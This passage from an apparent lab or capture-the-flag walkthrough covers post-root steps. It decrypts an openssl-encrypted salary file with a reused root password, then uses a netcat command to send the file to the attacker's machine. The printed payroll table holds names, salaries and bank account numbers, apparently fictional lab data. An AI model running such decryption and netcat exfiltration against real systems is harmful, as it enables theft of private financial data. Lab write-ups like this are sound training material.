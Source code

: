 And i got root!
I remembered that i wasn't able to get into the folder of ftp in the /home/ directory so i went into there.
I found another folder called 'incoming', and went into there.
In there i found a file, with the name 'salary_dec2003.csv.enc'.
`.enc` is something new to me, so i did a hexdump of it.
```
00000000: 5361 6c74 6564 5f5f 6e12 2080 82f2 b804  Salted__n. .....
00000010: 31ff 9cf2 4c77 2441 60d2 1ea7 8669 4d7e  1...Lw$A`....iM~
00000020: 8c37 d49d 1113 cb7e f0b7 0f1a 67a9 9a01  .7.....~....g...
```
I wanted to see what file this is but `file` said it was just data.
So i googled what `Salted__n` meaned and found that it was aes-128-cbc encryption, and that i could decrypt it with openssl.
So i did:
```
openssl aes-128-cbc -d -in salary_dec2003.csv.enc -out salary_dec2003.csv
```
And it asked for a password.
I tried it without password but it seemed to be broken after that.
When that failed i thought of bruteforcing the password and spent around an hour trying to make a script to do it. It didn't work so i retraced everything i did and saw the warning again in the `/etc/passwd` file.
So i tried the password of root with the decryption and it worked.
I transfered the file over to my own machine using netcat:
```
nc -lp 31337 > salary_dec2003.csv
```
```
nc 192.168.1.69 31337 < salary_dec2003.csv
```
And viewed the contents of the file:
```
,Employee information,,,,,,,,,,,,,,
,Employee ID,Name,Salary,Tax Status,Federal Allowance (From W-4),State Tax (Percentage),Federal Income Tax (Percentage based on Federal Allowance),Social Security Tax (Percentage),Medicare Tax (Percentage),Total Taxes Withheld (Percentage),"Insurance
Deduction
(Dollars)","Other Regular
Deduction
(Dollars)","Total Regular Deductions (Excluding taxes, in dollars)","Direct Deposit Info
Routing Number","Direct Deposit Info
Account Number"
,1,Charles E. Ophenia,"$225,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$360.00,$500.00,$860.00,183200299,1123245
,2,Marie Mary,"$56,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1192291
,3,Pat Patrick,"$43,350.00",1,1,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,2334432
,4,Terry Thompson,"$27,500.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$225.00,$350.00,183200299,1278235
,5,Ben Benedict,"$29,750.00",1,3,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$122.50,$247.50,183200299,2332546
,6,Erin Gennieg,"$105,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1456567
,7,Paul Michael,"$76,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1446756
,8,Ester Long,"$92,500.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1776782
,9,Adam Adams,"$76,250.00",1,5,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,2250900
,10,Chad Coffee,"$55,000.00",1,1,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1590264
,11,,,,,,,,,0.00%,,,$0.00,0,0
,12,,,,,,,,,0.00%,,,$0.00,0,0
```